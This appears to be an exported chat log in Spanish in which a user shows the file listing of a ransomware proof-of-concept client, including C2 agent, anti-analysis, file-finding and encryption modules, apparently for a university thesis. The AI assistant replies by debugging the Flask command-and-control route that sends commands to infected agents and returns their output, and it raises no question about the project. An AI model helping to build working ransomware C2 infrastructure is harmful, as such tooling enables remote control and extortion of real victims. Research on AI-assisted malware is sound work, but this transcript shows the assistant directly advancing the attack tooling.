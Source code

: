  Directorio de C:\Users\alexander_tfg\Desktop\TFG\Ransomware_LLM\Ransomware_PoC\Client

18/03/2025  09:56    <DIR>          .
16/03/2025  12:59    <DIR>          ..
18/03/2025  09:56               256 aes_key_encrypted.bin
18/03/2025  09:40             4.044 agent_c2.py
18/03/2025  09:56                15 agent_id.json
17/03/2025  18:45             2.473 antianalysis.py
17/03/2025  18:24             3.216 decrypt.py
17/03/2025  19:19             2.904 encrypt.py
17/03/2025  18:49             2.353 find_files.py
17/03/2025  18:39               671 gen_keys.py
17/03/2025  19:20               316 main.py
18/03/2025  09:56               450 rsa_public.pem
18/03/2025  09:42    <DIR>          __pycache__
              10 archivos         16.698 bytes
               3 dirs  40.287.936.512 bytes libres

127.0.0.1 - - [18/Mar/2025 09

## Response:
Parece que el servidor **sí está recibiendo la respuesta**, pero esta no se muestra en la plantilla HTML. Vamos a depurar el problema paso a paso.

* * *

**🔎 Posibles causas y soluciones**
-----------------------------------

Aquí hay tres áreas en las que algo podría estar fallando:

1️⃣ **El `output` no se está pasando correctamente a la plantilla en Flask**  
2️⃣ **El HTML de `execute_commands.html` no está renderizando el `output`**  
3️⃣ **Flask está teniendo un error antes de renderizar la respuesta**

* * *

### **1️⃣ Verificar si Flask realmente envía `output` a la plantilla**

En tu código Flask, imprime el `output` **antes de renderizar la plantilla** para confirmar que llega bien.

📌 **Agrega `print(output)` justo antes de `render_template`**:

```python
@app.route('/execute_command/<int:agent_id>', methods=['GET', 'POST'])
def execute_command(agent_id):
    if request.method == 'POST':
        command = request.form.get('command')
        print(f"Enviando comando al agente {agent_id}: {command}")

        agent_socket = connected_agents.get(agent_id)
        if not agent_socket:
            return jsonify({'error': 'Agente no está conectado'}), 404

        try:
            agent_socket.send(command.encode('utf-8'))
            agent_socket.settimeout(5)  # Evita bloqueos
            output = agent_socket.recv(4096).decode('utf-8')
            print(f"Salida recibida del agente {agent_id}:\n{output}")  # 🔥 IMPRIME PARA DEPURAR
```
